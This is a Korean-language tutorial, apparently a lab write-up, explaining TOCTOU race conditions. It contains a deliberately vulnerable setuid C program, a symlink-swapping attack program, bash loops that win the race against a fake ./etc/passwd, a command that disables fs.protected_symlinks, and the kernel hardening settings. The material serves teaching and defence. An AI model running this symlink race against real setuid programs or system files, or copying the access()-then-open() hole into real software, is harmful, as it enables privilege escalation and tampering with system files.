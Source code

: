 ## **Concept**

Race condition은 프로세스 또는 스레드 간 자원을 사용하기 위한 경쟁을 뜻한다. 이러한 경쟁은 프로세스 또는 스레드의 순서 또는 타이밍에 따라 발생한다.  
Race condition은 프로세스, 스레드에서 사용되는 자원이 공유된 상태일 경우 자주 발생한다.

### **TOCTTOU(Time of check to time of use)**

TOCTTOU는 소프트웨어에서 리소스의 상태를 확인하는 시간과 사용하는 시간 사이에 리소스를 변경하여 리소스의 상태 확인 결과를 우회하는 방법.

## **Proof of Concept**

가짜 /etc/passwd 파일을 생성하고 실제 /etc/passwd와 같은 설정을 적용한다.

```
root@bs-virtual-machine:~/pwnable/Race_condition# mkdir etc
root@bs-virtual-machine:~/pwnable/Race_condition# ls -al
total 12
drwxr-xr-x 3 root root 4096 11월 18 20:29 .
drwxr-xr-x 4 root root 4096 11월 18 20:29 ..
drwxr-xr-x 2 root root 4096 11월 18 20:29 etc
root@bs-virtual-machine:~/pwnable/Race_condition# cd etc
root@bs-virtual-machine:~/pwnable/Race_condition/etc# ls
root@bs-virtual-machine:~/pwnable/Race_condition/etc# echo Only Root! > passwd
root@bs-virtual-machine:~/pwnable/Race_condition/etc# cat passwd 
Only Root!
root@bs-virtual-machine:~/pwnable/Race_condition/etc# ls -al
total 12
drwxr-xr-x 2 root root 4096 11월 18 20:30 .
drwxr-xr-x 3 root root 4096 11월 18 20:29 ..
-rw-r--r-- 1 root root   11 11월 18 20:30 passwd
```

취약한 프로그램을 생성한다.

```c
// Vuln Code
// gcc vuln.c -o vuln ; chown root:root vuln ; chmod 4755 vuln 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
  
void main()
{
    int fd;
    char *file = "./file";
    char buffer[]="Success!! Race Condition : Attacker \n";
 
    if (!access(file, W_OK)) {
        printf("Able to open file %s.\n",file);
        fd = open(file, O_WRONLY);
        write(fd, buffer, sizeof(buffer));
        close(fd);
    }else{
        //printf("Unable to open file %s.\n",file);
    }
}
```

access() 함수를 이용하여 쓰기 가능한지 확인하고 쓰기가 가능하면 open(), write(), open(), write() 함수를 이용하여 파일을 읽고 내용을 작성한다.  

access()와 open()이 file handler 대신 파일 이름을 사용하여 access() 함수에 전달된 파일이 open() 함수에 전달될 파일과 같을 수 있다는 보장이 없다. 공격자가 access() 함수 호출 후 심볼릭 링크로 파일을 변경하면 open() 함수에 의해 다른 파일을 수정할 수 있다.

file을 unlink한 후 file에 ./etc/passwd 파일을 링크해주는 공격 프로그램을 작성한다.

```c
// gcc attack.c -o attack
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
void main()
{
    unlink("file");
    symlink("./etc/passwd","file");
}
```

./vuln 프로그램을 계속 실행시켜주는 스크립트를 작성한다.

```shell
#!/bin/bash
while :
do
    ./vuln
done
```

./ect/passwd를 계속 비교하면서 변경된 경우 "Success"를 출력하는 스크립트를 작성한다.

```shell
#!/bin/bash
CHECK_FILE="ls -l ./etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    ./attack
    new=$($CHECK_FILE)
done
echo "Success! The passwd file has been changed"
```

리눅스 커널의 보안 기술을 해제한다.

```shell
bs@bs-virtual-machine:~/race_condition$ sudo sysctl -w fs.protected_symlinks=0
fs.protected_symlinks = 0
```

## **Exploit**

Terminal1으로 run.sh 스크립트를 통해 ./vuln 프로그램을 지속적으로 실행한다.

```
bs@bs-virtual-machine:~/race_condition$ echo > file
bs@bs-virtual-machine:~/race_condition$ bash run.sh 
Able to open file ./file.
Able to open file ./file.
...
```

Terminal2에 race.sh 스크립트를 통해 ./attack 프로그램을 ./etc/passwd가 변조될 때까지 실행시킨 다음 ./etc/passwd이 변조된 것을 확인한다.

```
bs@bs-virtual-machine:~/race_condition$ bash race.sh 
Success! The passwd file has been changed
bs@bs-virtual-machine:~/race_condition$ cat ./etc/passwd 
Success!! Race Condition : Attacker
```

### **File system hardening**

리눅스 커널은 프로그램(tmp-races, TOCTOU)의 안전하지 않은 파일 시스템 액세스에 대한 취약성에 대한 위협을 완하하기 위해 해당 보안 기술을 적용하였다.

```
Ubuntu 12.04
$ sudo sysctl -w kernel.yama.protected_sticky_symlinks=1
Ubuntu 16.04
$ sudo sysctl -w fs.protected_symlinks=1
```

**References**  
<https://www.lazenca.net/display/TEC/09.Race+condition>